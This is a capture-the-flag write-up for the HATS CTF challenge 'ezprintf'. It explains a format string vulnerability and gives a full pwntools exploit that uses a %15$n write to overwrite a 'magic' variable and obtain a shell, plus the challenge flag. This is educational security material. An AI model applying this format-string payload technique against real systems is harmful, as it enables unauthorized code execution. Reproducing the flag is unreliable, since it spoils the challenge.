 ```yaml
---
title: "ezprintf [496]"
tags: [HATS CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
layout: single
classes: wide
--- 
```


**Category:** Binary Exploitation

> Printf is wonky. Time to exploit its wonkyness.
>
> nc challs.hats.sg 1304
>
> Reading material:  
> https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf

## Write-up
This challenge is a standard format string challenge. 

Here's the simplified decompilation of **main**:
```c
  magic = 0;
  read(0,input,0x400);
  printf(input);
  if (magic != 0) {
    system("/bin/sh");
  }
```

Obviously, the line `printf(input);` contains a format string vulnerability. The format string argument was missing from `printf`, which could be exploited to print and overwrite addresses on the stack.

The objective of the challenge was to overwrite the value of `magic`, which would instantly give us a shell. However, the address of `magic` which was `0x0060106c`, contained a null byte, which would cause `printf` to stop "executing" our payload once the null byte was reached.

To overcome this, the address of `magic` can be placed last in the payload. We can use the format specifier `%15$n` to overwrite `magic`, where `magic` is the 15th value on the stack to be printed. This ensures `magic` is overwritten before the null byte is reached.

The payload contains the following:
1. `"%x "*21`: Prints the first 21 arguments on the stack in hex. It allows us to locate the address of `magic` in the stack after including it in our payload.
2. `"%15$n "`: The format specifier `%n` overwrites the next address on the stack with the number of bytes printed. This is used to overwrite `magic` with the number of bytes currently printed.
3. `"BBB"`: This is used to align stack, ensuring the address of `magic` isn't split up.
4. The address of `magic`.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./ezprintf",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "challs.hats.sg",
    "PORT" : 1304,
}

def exploit(p):
	magic = elf.symbols['magic'] #0x0060106c
	
	payload = "%x "*21 + "%15$n "
	payload += "BBB" + p64(magic)

	sl(payload)
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
 ```

**Flag:** HATS{h3h1_that_w1z_3z}
